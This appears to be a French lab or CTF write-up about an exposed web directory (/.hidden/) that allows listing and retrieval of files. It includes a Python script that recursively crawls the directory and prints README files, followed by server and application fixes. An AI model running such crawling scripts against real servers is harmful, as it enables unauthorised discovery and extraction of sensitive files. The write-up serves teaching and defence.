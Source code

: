 
# Analyse de la faille de sécurité : Inclusion de fichiers via URL

## Description de la faille

Le problème vient de l'utilisation directe de liens dans une structure de répertoires exposée via une URL. 
Dans cet exemple, un site héberge une arborescence accessible via : 
```
http://192.168.129.219//.hidden/
```
Le serveur autorise l'accès à divers fichiers et répertoires via des liens non protégés. Cette vulnérabilité permet à un attaquant :
- D'explorer la structure complète des fichiers du serveur.
- D'extraire des fichiers sensibles (comme un fichier `README` contenant des informations critiques).

---

## Exploitation

### Étape 1 : Analyse initiale
L'attaquant explore les liens disponibles en parcourant l'arborescence :
```
http://192.168.129.219//.hidden/
```
À chaque niveau, il examine les fichiers disponibles.

### Étape 2 : Recherche de cibles spécifiques
L'objectif de l'attaquant est de trouver des fichiers spécifiques, par exemple :
- Des fichiers contenant des informations sensibles (`README`, `config.php`, etc.).

### Étape 3 : Extraction des données
Pour chaque fichier trouvé (comme `README`), l'attaquant :
1. Télécharge le fichier via son lien direct.
2. Filtre les données en fonction de leur pertinence.
3. Récupère des informations exploitables pour d'autres attaques.

Exemple de code Python utilisé par un attaquant pour automatiser cette tâche :
```python
import requests
import bs4 as bs

def scrapping_recursive(url):
    r = requests.get(url)
    soup = bs.BeautifulSoup(r.text, 'html.parser')
    if soup is not None:
        links = soup.find_all("a")
        for link in links:
            final_link = link.get('href')
            if final_link == "README":
                response = requests.get(url + final_link)
                if "Demande" not in response.text:
                    print(response.text)
            elif final_link != "../":
                scrapping_recursive(url + final_link)

url = "http://192.168.129.219//.hidden/"
scrapping_recursive(url)
```

---

## Comment corriger cette faille ?

### Étape 1 : Restreindre l'accès aux fichiers
Configurer le serveur pour empêcher l'accès aux répertoires non sécurisés :
- Utiliser des fichiers `.htaccess` pour interdire l'accès à des répertoires spécifiques.
- Désactiver l'indexation automatique des répertoires :
  ```apache
  Options -Indexes
  ```

### Étape 2 : Validation des entrées utilisateur
Si des paramètres utilisateur sont utilisés pour charger des fichiers, valider les entrées strictement :
- Autoriser uniquement les noms de fichiers ou identifiants valides :
  ```python
  VALID_FILES = ["file1.txt", "README"]
  if filename not in VALID_FILES:
      raise ValueError("Fichier non autorisé")
  ```

### Étape 3 : Utiliser des identifiants internes
Au lieu de laisser l'utilisateur fournir directement des chemins ou noms de fichiers, utiliser des identifiants internes :
- Exemple :
  - L'utilisateur demande `src=123`.
  - Le serveur traduit `123` en un chemin sécurisé interne (`files/README`).

### Étape 4 : Surveiller les journaux d'accès
Analyser régulièrement les journaux pour détecter des activités suspectes, telles que l'exploration de répertoires.

---

## Conclusion

Cette faille de sécurité montre l'importance de protéger les répertoires sensibles et de valider toutes les entrées utilisateur. Une configuration serveur stricte combinée à des contrôles côté application peut prévenir ces attaques.

